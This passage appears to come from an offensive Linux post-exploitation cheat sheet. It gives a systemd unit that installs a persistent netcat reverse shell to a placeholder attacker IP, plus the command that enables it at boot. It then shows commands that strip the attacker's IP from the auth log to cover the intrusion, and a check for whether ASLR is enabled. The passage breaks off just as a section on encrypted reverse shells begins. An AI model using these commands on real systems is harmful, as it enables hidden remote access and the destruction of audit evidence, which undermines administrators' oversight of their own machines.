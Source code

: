 ```sh
/version : Linux Version Information.
/var/log/auth* : Log of authorization login attempts. /var/log/lastlog : Log of last boot process.
```

## Backdooring Systemd Services

Create the following service descriptor at ```/etc/systemd/system/notmalicious.service```:

```sh
[Unit]
Description=Not a backdoor into your critical server.
[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash <ATTACKER_IP> <PORT> 2>/dev/null
[Install]
WantedBy=multi-user.target
```

Enable the backdoor service to run on restart:

```sh
sudo systemctl enable notmalicious
```

## Old-Fashioned Log Cleaning

Grep to remove sensitive attacker information then copy into original logs

```sh
# cat /var/log/auth.log | grep -v "<Attacker IP>" > /tmp/cleanup.log
# mv /tmp/cleanup.log /var/log/auth.log
```

## ASLR Enumeration

Address space layout randomization (ASLR) is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities. In order to prevent an attacker from reliably jumping to, for example, a particular exploited function in memory, ASLR randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries.

- If the following equals 0, not enabled

```sh
cat /proc/sys/kernel/randomize_va_space 2>/dev/null
```

# Reverse Shells

## Encrypted Reverse Shells with OpenSSL

Generate SSL certificate:
